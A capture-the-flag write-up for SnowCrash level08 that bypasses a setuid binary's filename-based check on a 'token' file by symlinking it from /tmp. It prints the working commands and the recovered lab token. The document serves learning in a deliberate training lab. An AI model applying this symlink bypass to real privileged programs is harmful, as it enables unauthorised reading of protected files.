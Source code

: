 In our home directory, we notice an executable with extended permissions and a token file that we do not have access to:

```
level08@SnowCrash:~$ ls -l
total 16
-rwsr-s---+ 1 flag08 level08 8617 Mar  5  2016 level08
-rw-------  1 flag08 flag08    26 Mar  5  2016 token

level08@SnowCrash:~$ ./level08
./level08 [file to read]
```

When we test the executable with a file we own, it displays the file's content:

```
level08@SnowCrash:~$ echo '42' > /tmp/test
level08@SnowCrash:~$./level08 /tmp/test
42
```

But that doesn't work with the token file:

```
level08@SnowCrash:~$ ./level08 token
You may not access 'token'
```

Since we don't receive a Linux permission error, it's possible that the level08 executable restricts access based on the file name. To bypass this, we can try using a symlink:

```
level08@SnowCrash:~$ ln -s ~/token /tmp/test
level08@SnowCrash:~$ ./level08 /tmp/test
25749xKZ8L7DkSCwJkT9dyv6f
```
